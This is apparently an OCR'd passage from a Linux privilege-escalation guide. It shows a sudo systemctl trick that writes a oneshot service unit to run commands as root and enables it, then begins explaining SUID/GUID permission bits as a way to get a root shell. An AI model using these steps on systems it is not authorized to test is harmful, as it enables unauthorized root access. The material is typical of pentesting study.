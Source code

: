     TF=$(mktemp).service
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/sh -c "id > /tmp/output"
    [Install]
    WantedBy=multi-user.target' > $TF
    sudo systemctl link $TF
    sudo systemctl enable --now $TF
            
# Step 4:
         cat /tmp/output
#### 😍Happy Hacking 😍

# Finding And Exploiting SUID/GUID Files
The first step in Linux privilege escalation exploitation is to check for files with the SUID/GUID bit set. This means that the file or files can be run with the permissions of the file(s) owner/group. In this case, as the super-user. We can leverage this to get a shell with these privileges!

# What is an SUID binary?

As we all know in Linux everything is a file, including directories and devices which have permissions to allow or restrict three operations i.e. read/write/execute. So when you set permission for any file, you should be aware of the Linux users to whom you allow or restrict all three permissions. Take a look at the following demonstration of how maximum privileges (rwx-rwx-rwx) look:

r = read

w = write

x = execute

    user     group     others

    rwx       rwx       rwx

    421       421       421

The maximum number of bit that can be used to set permission for each user is 7, which is a combination of read (4) write (2) and execute (1) operation. For example, if you set permissions using "chmod" as 755, then it will be: rwxr-xr-x.


But when special permission is given to each user it becomes SUID or SGID. When extra bit “4” is set to user(Owner) it becomes SUID (Set user ID) and when bit “2” is set to group it becomes SGID (Set Group ID).

Therefore, the permissions to look for when looking for SUID is:

SUID:

rws-rwx-rwx

GUID:

